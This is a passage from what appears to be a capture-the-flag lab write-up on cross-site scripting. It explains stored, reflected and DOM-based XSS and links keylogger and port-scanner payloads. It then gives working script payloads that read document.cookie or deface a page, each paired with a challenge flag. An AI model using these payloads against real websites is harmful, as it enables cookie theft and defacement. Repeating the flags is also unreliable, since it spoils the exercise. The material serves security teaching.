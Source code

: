 - Stored XSS - the most dangerous type of XSS. This is where a malicious string originates from the website’s database. This often happens when a website allows user input that is not sanitised (remove the "bad parts" of a users input) when inserted into the database.
    
- Reflected XSS - the malicious payload is part of the victims request to the website. The website includes this payload in response back to the user. To summarise, an attacker needs to trick a victim into clicking a URL to execute their malicious payload.
    
- DOM-Based XSS - DOM stands for Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document and this document can be either displayed in the browser window or as the HTML source.

XSS  payloads:

- Popup's (<script>alert(“Hello World”)</script>) - Creates a Hello World message popup on a users browser.

- Writing HTML (document.write) - Override the website's HTML to add your own (essentially defacing the entire page).

- XSS Keylogger (http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html) - You can log all keystrokes of a user, capturing their password and other sensitive information they type into the webpage.

- Port scanning (http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html) - A mini local port scanner.

### XSS Challenge

Craft a reflected XSS payload that will cause a popup saying "Hello".

payload: `<script>alert("Hello")</script>`

answer: ThereIsMoreToXSSThanYouThink

Craft a reflected XSS payload that will cause a popup with your machines IP address

payload: `<script>alert(window.location.hostname)</script>`

answer: ReflectiveXss4TheWin

Add a comment and see if you can insert some of your own HTML.

payload: `<a href='www.google.com'></a>`

answer: HTML_T4gs

Create an alert popup box appear on the page with your document cookies.

payload: `<script>alert(document.cookie)</script>`

answer: W3LL_D0N3_LVL2

Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.

payload: `document.querySelector('#thm-title').textContent = 'I am a hacker'`

answer: websites_can_be_easily_defaced_with_xss

## Severity 8
